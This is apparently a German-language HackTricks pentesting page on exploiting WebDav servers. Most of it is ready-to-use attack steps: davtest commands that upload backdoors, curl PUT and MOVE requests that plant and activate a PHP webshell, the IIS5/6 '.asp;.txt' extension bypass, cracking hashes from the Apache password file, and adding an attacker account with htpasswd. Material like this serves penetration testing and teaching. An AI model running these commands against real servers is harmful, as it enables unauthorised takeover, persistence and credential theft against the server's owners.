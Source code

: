 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Verwenden Sie [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav), um einfach **Workflows** zu erstellen und zu **automatisieren**, die von den **fortschrittlichsten** Community-Tools der Welt unterstützt werden.\
Zugang heute erhalten:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

Beim Umgang mit einem **HTTP-Server mit aktiviertem WebDav** ist es möglich, **Dateien zu manipulieren**, wenn Sie die richtigen **Anmeldeinformationen** haben, die normalerweise durch **HTTP Basic Authentication** überprüft werden. Die Kontrolle über einen solchen Server zu erlangen, beinhaltet oft das **Hochladen und Ausführen einer Webshell**.

Der Zugang zum WebDav-Server erfordert typischerweise **gültige Anmeldeinformationen**, wobei [**WebDav Bruteforce**](../../generic-methodologies-and-resources/brute-force.md#http-basic-auth) eine gängige Methode ist, um diese zu erhalten.

Um Einschränkungen beim Hochladen von Dateien zu überwinden, insbesondere solche, die die Ausführung von serverseitigen Skripten verhindern, könnten Sie:

* **Dateien mit** **ausführbaren Erweiterungen** direkt hochladen, wenn dies nicht eingeschränkt ist.
* **Hochgeladene nicht ausführbare Dateien** (wie .txt) in eine ausführbare Erweiterung umbenennen.
* **Hochgeladene nicht ausführbare Dateien kopieren** und ihre Erweiterung in eine ausführbare ändern.

## DavTest

**Davtest** versucht, **mehrere Dateien mit unterschiedlichen Erweiterungen hochzuladen** und **überprüft**, ob die Erweiterung **ausgeführt** wird:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

Das bedeutet nicht, dass **.txt** und **.html Erweiterungen ausgeführt werden**. Das bedeutet, dass Sie **auf diese Dateien zugreifen** können über das Web.

## Cadaver

Sie können dieses Tool verwenden, um sich mit dem **WebDav**-Server zu **verbinden** und Aktionen (wie **hochladen**, **verschieben** oder **löschen**) **manuell** durchzuführen.
```
cadaver <IP>
```
## PUT-Anfrage
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE-Anfrage
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Verwenden Sie [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav), um einfach **Workflows** zu erstellen und zu **automatisieren**, die von den **fortschrittlichsten** Community-Tools der Welt unterstützt werden.\
Zugang heute erhalten:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## IIS5/6 WebDav-Sicherheitsanfälligkeit

Diese Sicherheitsanfälligkeit ist sehr interessant. **WebDav** erlaubt es **nicht**, Dateien mit der Erweiterung **.asp** zu **hochladen** oder **umzubenennen**. Aber Sie können dies **umgehen**, indem Sie am Ende des Namens **";.txt"** hinzufügen, und die Datei wird **ausgeführt**, als ob es sich um eine .asp-Datei handelt (Sie könnten auch **".html" anstelle von ".txt" verwenden**, aber **VERGESSEN SIE NICHT das ";"**).

Dann können Sie Ihre Shell als eine ".**txt" Datei** **hochladen** und sie in eine ".asp;.txt" Datei **kopieren/bewegen**. Wenn Sie auf diese Datei über den Webserver zugreifen, wird sie **ausgeführt** (Cadaver wird sagen, dass die Verschiebeaktion nicht funktioniert hat, aber das hat sie).

![](<../../.gitbook/assets/image (1092).png>)

## Post-Anmeldeinformationen

Wenn Webdav einen Apache-Server verwendet hat, sollten Sie sich die konfigurierten Sites in Apache ansehen. Üblicherweise:\
&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

Darüber könnten Sie etwas finden wie:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Wie Sie sehen können, gibt es die Dateien mit den gültigen **credentials** für den **webdav**-Server:
```
/etc/apache2/users.password
```
Innerhalb dieser Art von Dateien finden Sie den **Benutzernamen** und einen **Hash** des Passworts. Dies sind die Anmeldeinformationen, die der WebDAV-Server verwendet, um Benutzer zu authentifizieren.

Sie können versuchen, sie zu **knacken**, oder **mehr hinzuzufügen**, wenn Sie aus irgendeinem Grund auf den **WebDAV**-Server **zugreifen** möchten:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Um zu überprüfen, ob die neuen Anmeldeinformationen funktionieren, können Sie Folgendes tun:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Referenzen

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Verwenden Sie [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav), um einfach **Workflows** zu erstellen und **zu automatisieren**, die von den **fortschrittlichsten** Community-Tools der Welt unterstützt werden.\
Zugang heute erhalten:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
